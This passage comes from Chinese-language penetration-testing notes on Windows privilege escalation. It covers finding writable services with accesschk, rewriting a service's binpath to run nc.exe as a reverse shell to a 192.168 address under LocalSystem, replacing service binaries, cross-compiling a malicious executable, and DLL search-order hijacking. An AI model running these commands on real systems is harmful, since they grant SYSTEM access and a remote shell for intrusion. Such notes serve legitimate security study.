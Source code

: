     access ckh users -c *
    accesschk.exe -uwcqv "users"  *      查看user组可读写的服务
    ```
    ```cmd
    net start | find "服务名称"    查看指定的服务名称有没有启动
    
    sc qc kdc      查看服务信息，kdc为服务名称  ，通过查看服务信息获取为系统权限的服务进行修改。
    sc config kdc binpath= "c:\temp\nc.exe -nv 192.168..200 3344 -e cmd.exe"
sc config kdc obj=".\LocalSystem" password=""
net start kdc
    ```

    >当使用网络登录(如WinRM或绑定shell)时，Get-CimInstance和Get-Service在使用非管理用户查询服务时将导致“permission denied”错误。使用交互式登录(如RDP)可以解决这个问题。

  * （2）获得可疑服务应用时，然后查看他们的权限
    ```powershell
    icalcls "c:\abc.exe"
    ```
    查看可执行文件的权限，F（完全权限），R（可读），X（可执行）,获得可读可写权限时，替换二进制文件
    
  * （3）生成病毒文件
    使用kali中跨平台编译器
    ```bash
    x86_64-w64-mingw32-gcc 病毒软件.c -o output.exe
    ```
  * （4）重启服务
    有时修改完目标服务软件，然后重启服务，这时有可能没有权限，一般管理员才有权限操纵服务开启关闭
    可以查看此服务是否是开机自动开启
    ```powershell
    Get-CimInstance -ClassName win32_service | Select Name,StartMode | Where-Object {$_.Name -like 'mysql'}
    ```
    如果是Auto，则可以重启主机运行病毒软件
    whoami /priv 查能干什么看当前用户权限
  
* **劫持服务DLL提权**
  有时没有权限修改服务对应的exe文件，即没有写权限
  可以劫持DLL
  有两种方法：
  第一：劫持服务应用使用的DLL（需要对于DLL的修改权限）同替换服务二进制文件提权
  第二：劫持windows的DLL search order（DLL搜索顺序）
  **DLL search order是由微软实现的，因为大量的DLL劫持向量，并确保DLL更难以劫持。下面的清单显示了取自Microsoft文档的标准搜索顺序**
  ```
  1. The directory from which the application loaded.
  2. The system directory.
  3. The 16-bit system directory.
  4. The Windows directory. 
  5. The current directory.
  6. The directories that are listed in the PATH environment variable.
  
    Listing 56 - Standard DLL search order on current Windows versions
  ```
  